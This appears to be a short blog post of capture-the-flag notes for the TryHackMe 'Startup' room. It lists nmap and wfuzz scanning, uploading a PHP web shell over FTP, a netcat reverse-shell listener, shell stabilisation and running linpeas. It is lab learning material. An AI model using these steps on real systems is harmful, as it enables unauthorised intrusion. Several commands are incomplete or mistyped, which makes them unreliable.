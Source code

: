 ```yaml
---
layout: post
title: Startup | Tryhackme
date: 2021-11-05
description: You’ll find this post in your `_posts` directory. Go ahead and edit it and re-build the site to see your changes. # Add post description (optional)
img: startup/logo.png  # Add image post (optional)
tags: [] # add tag
---
```




Let's start....


ip add to hosts 

> sudo leafpad /etc/hosts


> sudo nmap -sC -sV 

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

wfuzz -w /usr/share/SecLists/discovery/Webcontents/raft-large-directories.txt -u http://startup.thm/FUZZ

<p align="center">
<img src="/assets/img/startup/" width="350"/>
</p>

> ftp startup.thm
> get 
> get 

phpshell.php

> put phpshell.php

 Check the ip addr
 
nc -lvnp 33456

> ls -la
> stty raw -echo 
> import TERM=xterm

upload linpease.sh file  



